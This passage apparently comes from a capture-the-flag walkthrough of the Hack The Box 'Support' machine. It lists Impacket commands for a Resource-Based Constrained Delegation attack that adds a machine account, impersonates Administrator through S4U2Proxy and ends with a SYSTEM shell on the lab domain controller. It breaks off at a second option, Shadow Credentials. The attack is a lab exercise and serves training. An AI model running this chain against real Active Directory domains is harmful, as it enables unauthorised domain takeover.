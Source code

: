 
## ✅ OPTION 1: Resource-Based Constrained Delegation (RBCD)

### 🔹 Step 1: Add Machine Account

```bash
addcomputer.py support.htb/support:'Ironside47pleasure40Watchful' -dc-host 10.10.11.174 -method SAMR -computer-name RBCD$ -computer-pass 'P@ssw0rd123!'
```

> `-method SAMR` used because `LDAPS` failed; SAMR works over RPC.

---

### 🔹 Step 2: Configure RBCD

```bash
rbcd.py support.htb/support:'Ironside47pleasure40Watchful' -delegate-from RBCD$ -delegate-to DC$ -dc-ip 10.10.11.174 -action write
```

---

### 🔹 Step 3: Get TGT for RBCD$

```bash
getTGT.py support.htb/RBCD\$:'P@ssw0rd123!' -dc-ip 10.10.11.174
```

---

### 🔹 Step 4: Get S4U2Proxy Ticket (impersonate Administrator)

```bash
export KRB5CCNAME=RBCD$.ccache
getST.py -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/RBCD\$
mv "Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache" Administrator.ccache
```

---

### 🔹 Step 5: SYSTEM Access via PTT

```bash
export KRB5CCNAME=Administrator.ccache
smbexec.py -k -no-pass support.htb/Administrator@dc.support.htb
```

> Confirmed: `whoami = NT AUTHORITY\SYSTEM`

---

## ✅ OPTION 2: Shadow Credentials via pyWhisker
